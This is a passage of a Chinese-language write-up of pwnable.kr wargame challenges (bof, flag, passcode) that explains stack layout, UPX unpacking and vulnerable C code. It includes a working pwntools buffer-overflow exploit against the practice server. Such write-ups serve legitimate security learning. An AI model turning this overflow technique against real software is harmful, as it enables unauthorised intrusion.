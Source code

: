 ```c
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

从 IDA 中观察到 `overflowme` 在 `ebp-2c`，而 `key` 在 `ebp+8`，相差 `0x34`。栈上大概是这样的：

```
 HIGH ADDRESS
 ----------------------
| the states of main() | // caller
 ----------------------
| args of func()       | // including key. Also in caller's state
 ----------------------
| retaddr of func()    |
 ----------------------
| saved ebp            | <- ebp
 ----------------------
| local vars of func() | // including overflowme[]
 ----------------------  <- esp
 LOW ADDRESS
```

了解这些后，我们用 `0x34` 字节数据作填充，然后用 `0xcafebabe` 覆盖掉 `key` 即可。

```python
from pwn import *

context.log_level = 'DEBUG'

# p = process('./bof')
p = remote('pwnable.kr', 9000)

payload = 'a'*0x34 + p32(0xcafebabe)
p.sendline(payload)

p.interactive()
```

## flag

在 Hex-View 中发现是 UPX 加壳的，`upx -d` 脱壳。

脱壳后的程序提示会 `malloc` 然后 `strcpy` 本题的 flag，查看汇编代码，发现这里 flag 的变量名是 `cs:flag`，跟踪变量得到 flag。

## passcode

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 :");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 :");
        scanf("%d", passcode2);

```